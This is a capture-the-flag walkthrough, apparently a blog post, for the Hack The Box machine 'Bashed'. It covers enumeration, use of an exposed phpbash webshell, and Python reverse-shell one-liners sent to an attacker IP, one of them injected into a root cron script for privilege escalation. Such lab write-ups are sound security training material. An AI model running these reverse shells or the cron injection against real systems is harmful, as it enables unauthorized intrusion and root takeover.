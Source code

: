 ```yaml
---
permalink: /posts/HTB/Bashed
title:  "HTB Bashed"
author: Luc Kolen
description: "Bashed is an easy Linux machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Linux
  - Gobuster
  - Nikto
---
```

# 10.10.10.68 - Bashed

|Hack The Box|Created by|Points|
|---|---|---|
|[Link](https://www.hackthebox.eu/home/machines/profile/118)|[Arrexel](https://www.hackthebox.eu/home/users/profile/2904)|20|

- [10.10.10.68 - Bashed](#10101068---bashed)
  - [Open ports](#open-ports)
  - [HTTP](#http)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)
  - [Bonus](#bonus)
    - [Why the privilege escalation worked](#why-the-privilege-escalation-worked)

## Open ports

```bash
luc@kali:~/HTB/Bashed$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.68
```

|Port|Service|Version
|---|---|---|
80/tcp|http|Apache httpd 2.4.18 ((Ubuntu))

## HTTP

The website only has one post and it's about [phpbash](https://github.com/Arrexel/phpbash) and that it was developed on the webserver we're currently connecting to.

```bash
luc@kali:~/HTB/Bashed$ gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
...
/dev (Status: 301)
...
luc@kali:~/HTB/Bashed$ nikto -url http://10.10.10.68
...
+ OSVDB-3268: /dev/: Directory indexing found.
...
```

Both Gobuster and Nikto found a `/dev` directory on the webserver. Browsing to this directory we can see `phpbash.min.php` and `phpbash.php`, this matches the post about it being developed on this machine. Opening `http://10.10.10.68/dev/phpbash.php` gives us a webshell.

```bash
www-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/var/www/html/dev# cd /home/arrexel
www-data@bashed:/home/arrexel# cat user.txt
2c281f31************************
```

We're running as `www-data` and we can read the `user.txt` file.

## Privilege escalation

```bash
www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run all commands as the `scriptmanager` user.

```bash
www-data@bashed:/# which python
/usr/bin/python
www-data@bashed:/# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
luc@kali:~/HTB/Bashed$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:45786.
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

We're able to run sudo now because we're in an interactive shell instead of the phpbash webshell.

```bash
scriptmanager@bashed:/$ ls -lsa
...
4 drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun 17 12:13 scripts
...
scriptmanager@bashed:/$ ls scripts -lsa
...
4 -rw-r--r--  1 scriptmanager scriptmanager  283 Jun 17 11:59 test.py
4 -rw-r--r--  1 root          root            12 Jun 17 11:59 test.txt
...
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

We can see that scriptmanager owns the `test.py` script, but that `test.txt` is owned by `root`. So we know that `root` has executed the script. Both files are created on the same date so there is a good chance that there is a crontab running as `root` that executes this file. We'll check this in [Bonus](#bonus).

```bash
scriptmanager@bashed:/scripts$ cat test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

```bash
luc@kali:~/HTB/Bashed$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:58562.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe************************
```

We add the same Python reverse shell we used earlier (but now on port 444) to the `test.py` file. This triggers a reverse shell as `root` a few seconds later.

## TL;DR

- `phpbash.php` was left on the webserver in the `dev` folder
- `www-root` can run as `scriptmanager`
- `scriptmanager` can edit/create scrips that `root` will execute

## Bonus

### Why the privilege escalation worked

```bash
# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```

As root we can read the crontab to see what tasks are scheduled to run. We see that it goes over all `.py` files in `/scripts` and executes them. We could've also created another file instead of adding our code to the `test.py` file.
